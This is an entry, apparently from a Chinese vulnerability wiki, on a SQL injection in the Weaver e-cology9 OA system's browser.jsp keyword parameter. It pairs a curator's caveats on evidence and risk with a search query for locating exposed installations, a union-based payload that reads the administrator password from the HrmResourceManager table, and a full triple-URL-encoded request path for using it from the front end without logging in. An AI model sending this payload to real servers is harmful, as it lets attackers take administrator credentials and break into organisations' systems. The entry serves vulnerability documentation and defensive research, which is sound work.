

# 泛微e-cology9 browser.jsp keyword SQL注入

## 条目说明

- 对象与具体问题：泛微e-cology9；browser.jsp keyword SQL注入
- 版本、配置及部署条件：v9泛称，具体补丁未列
- 认证与权限前提：前台空格路径+三层URL编码
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与CNVD/QVD browser.jsp同接口/browserTypeId269；本篇补充源码等价明文查询
- 不应按缺ID另建漏洞；将敏感密码查询可留历史证据但标准验证宜常量
- 版本仅v9丢失<=10.55及补丁覆盖历史，合并详文补足

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

泛微OA E-Cology browser.jsp 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息，进一步进行攻击

### 漏洞影响

```
泛微 E-Cology v9
```

### 网络测绘

```
product="泛微-协同商务系统"
```

### 漏洞复现

登陆页面


验证POC, 将SQL语句进行3次URL编码

```
asdasdasxx%' union select 1,(select password from HrmResourceManager where id=1) union select 1,'1
```

```
/mobile/%20/plugin/browser.jsp?isDis=1&browserTypeId=269&keyword=%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%38%25%32%35%25%33%32%25%33%35%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%38%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%38%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%34%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%34%25%36%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%33%31
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
